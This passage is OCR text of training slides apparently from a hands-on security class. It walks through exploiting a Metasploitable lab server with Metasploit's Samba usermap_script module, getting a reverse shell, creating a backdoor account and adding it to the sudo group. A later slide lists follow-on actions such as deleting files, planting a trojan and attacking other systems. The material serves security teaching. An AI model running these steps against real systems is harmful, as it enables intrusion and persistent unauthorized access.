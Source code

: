 Exploit
www.tekperfect.com
11

use exploit/multi/samba/usermap_script - This is the samba exploit you can launch against the metasploitable linux server
set rhosts xxx.xx.xxx.xxx - This is the command you use to set the host you are going to run the exploit against once you locate it on your network
run - Starts the exploit against the system you specified with the set rhost command.
reverse shell - is the access you have when you have successful executed the exploit against the vulnerable system.

Create, Elevate & Gain access
www.tekperfect.com
12
useradd username - create an account on the system via reverse shell
passwd username - Change the password on the account you just created
Elevate Privileges - Process of granting privileges to a known or created account to gain root level access to system
usermod -a -G sudo username - Add the account to the sudo group
usermod -a -G admin username - Add the account to the admin group

Connect & Elevate Access
www.tekperfect.com
13
ssh username@xxx.xxx.xxx.xxx - Connect to a remote or local system via ssh with a named account that you know the password to.
sudo command-name- Run a command with root or elevated privileges example: “sudo passwd username” changes the password of an account

Now What?
www.tekperfect.com
14

Add additional accounts
Search the system for sensitive data
Delete files
Change data on system or services running on the system
Plant a virus or trojan
Attack other systems from this system

Why is this exercise important?
www.tekperfect.com
15
It’s vital to understanding the command line
It’s critical to understanding security and vulnerabilities
If you don’t practice using these tools you will not understand the material

Hacking Exercise
www.tekperfect.com
16
Use Kali to find exploits in Metasploitable and Metasploitable3
Break up into two team and name your team
Team with the most points wins
Total possible points 400
